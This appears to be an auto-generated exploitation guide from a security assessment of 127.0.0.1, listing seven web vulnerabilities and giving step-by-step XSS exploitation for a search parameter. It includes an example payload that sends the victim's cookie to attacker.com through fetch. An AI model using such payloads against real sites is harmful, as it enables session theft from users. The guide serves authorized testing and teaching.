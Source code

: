 # Detailed Exploitation Guide for 127.0.0.1

This document provides detailed instructions for reproducing and exploiting the vulnerabilities found during the security assessment. This information is intended for authorized security testing only.

## Disclaimer

The information contained in this document is for authorized security testing purposes only. Unauthorized use of these exploitation techniques against systems without explicit permission is illegal and unethical.

## Target Information

- **Target:** 127.0.0.1
- **Scan Date:** 20250426_160749

## Identified Vulnerabilities

The following vulnerabilities were identified during the assessment:

1. **Cross-Site Scripting (XSS)** (High)
2. **SQL Injection** (High)
3. **Cross-Site Request Forgery (CSRF)** (Medium)
4. **Open Redirect** (Medium)
5. **XML External Entity (XXE) Processing** (High)
6. **Server-Side Request Forgery (SSRF)** (High)
7. **Insecure Deserialization** (High)

## Detailed Exploitation Procedures

### Cross-Site Scripting (XSS) (High)

**Affected Component:** http://127.0.0.1/search (q parameter)

**Description:** An attacker can inject malicious JavaScript code into web pages viewed by users. When the page is rendered, the script executes in the victim's browser, allowing attackers to steal cookies, session tokens, redirect users to malicious sites, or perform actions on behalf of the victim.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://127.0.0.1/search
2. Identify the vulnerable parameter: q
3. Craft a malicious XSS payload (e.g., <script>alert(document.cookie)</script>)
4. Submit the payload through the input field or URL parameter
5. Verify execution by checking if the JavaScript executes

#### Example Payloads

```
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
